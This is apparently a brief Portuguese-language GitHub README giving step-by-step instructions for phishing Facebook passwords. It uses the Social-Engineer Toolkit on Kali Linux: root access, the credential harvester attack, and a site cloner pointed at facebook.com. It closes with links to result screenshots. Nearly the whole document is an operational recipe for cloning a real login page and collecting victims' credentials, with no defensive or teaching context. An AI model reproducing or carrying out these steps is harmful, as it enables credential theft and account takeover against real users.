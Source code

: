# Phishing para captura de senhas do Facebook

### Ferramentas

- Kali Linux
- setoolkit

### Configurando o Phishing no Kali Linux

- Configuração de rede: ```Placa em modo brigde ```
- Acesso root: ``` sudo su ```
- Iniciando o setoolkit: ``` setoolkit ```
- Tipo de ataque: ``` 1) Social-Engineering Attacks ```
- Vetor de ataque: ``` 2) Web Site Attack Vectors ```
- Método de ataque: ``` 3) Credential Harvester Attack Method ```
- Método de ataque: ``` 2) Site Cloner ```
- set:webattack> IP address for the POST back in Harvester/Tabnabbing  [seu.Ip.aparece.aqui]: ``` Tecle Enter ```
- URL para clone: http://www.facebook.com

### Resutados

![Alt text](./teste1.png "Teste 1")

![Alt text](./teste2.png "Teste 2")
